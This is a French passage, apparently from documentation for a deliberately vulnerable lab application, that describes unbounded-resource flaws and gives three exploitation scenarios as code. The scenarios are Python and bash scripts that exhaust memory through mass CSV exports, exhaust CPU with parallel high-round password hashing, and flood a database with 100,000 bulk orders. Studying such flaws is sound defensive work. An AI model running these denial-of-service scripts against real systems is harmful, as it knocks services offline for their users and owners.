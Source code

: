 **Problèmes** :
- Pas de limite sur la taille de la liste
- Transaction massive en base de données
- Consommation mémoire proportionnelle à la requête

## 💥 Scénarios d'exploitation

### Scénario 1 : Attaque par épuisement mémoire
```python
import requests
import concurrent.futures

def exhaust_memory(base_url):
    # Requête pour 10 millions d'utilisateurs
    url = f"{base_url}/api/rc/export-csv?count=10000000"
    
    # Lancer 10 requêtes en parallèle
    with concurrent.futures.ThreadPoolExecutor(max_workers=10) as executor:
        futures = []
        for i in range(10):
            future = executor.submit(requests.get, url)
            futures.append(future)
        
        # Attendre que toutes les requêtes se terminent
        for future in concurrent.futures.as_completed(futures):
            print(f"Requête terminée: {future.result().status_code}")
```

### Scénario 2 : Attaque par épuisement CPU
```bash
#!/bin/bash
# Lancer des calculs intensifs en parallèle
for i in {1..50}; do
    curl "http://localhost:5000/api/rc/hash-password?password=test$i&rounds=10000000" &
done
wait
```

### Scénario 3 : Remplissage de base de données
```python
import requests
import json

def fill_database(base_url):
    # Créer 100 000 ordres en une seule requête
    orders = []
    for i in range(100000):
        orders.append({
            "userId": 1,
            "amount": 99.99,
            "status": "pending"
        })
    
    response = requests.post(
        f"{base_url}/api/rc/bulk-create-orders",
        json=orders,
        headers={"Content-Type": "application/json"}
    )
    
    print(f"Créé {response.json().get('created')} ordres")
```
